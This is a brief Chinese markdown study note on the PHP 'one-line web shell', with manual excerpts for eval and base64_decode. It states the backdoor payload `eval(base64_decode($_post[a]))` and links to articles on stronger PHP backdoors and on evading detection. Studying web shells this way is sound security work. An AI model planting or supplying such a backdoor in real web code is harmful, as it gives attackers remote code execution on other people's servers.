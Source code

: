 ```yaml
---
layout: post
title: 一句话木马
---
```


#一句话木马
@(WebPEN)[infosec]

**`eval(base64_decode($_post[a]))`**
##eval
(PHP 4, PHP 5)
eval — 把字符串作为PHP代码执行
###说明
```
mixed eval ( string $code )
```
把字符串 code 作为PHP代码执行。
###参数
1.  code
	需要被执行的字符串

##base64_decode
(PHP 4, PHP 5)
base64_decode — 对使用 MIME base64 编码的数据进行解码
###说明
```
string base64_decode ( string $data [, bool $strict = false ] )
```
对 base64 编码的 data 进行解码。
###参数
1. data
	 编码过的数据。
2. strict
	 如果输入的数据超出了 base64 字母表，则返回 FALSE。
##进阶
[那些强悍的PHP一句话后门 ](http://www.freebuf.com/articles/web/9396.html)
["一句话"的艺术——简单的编码和变形绕过检测](http://drops.wooyun.org/tips/839)

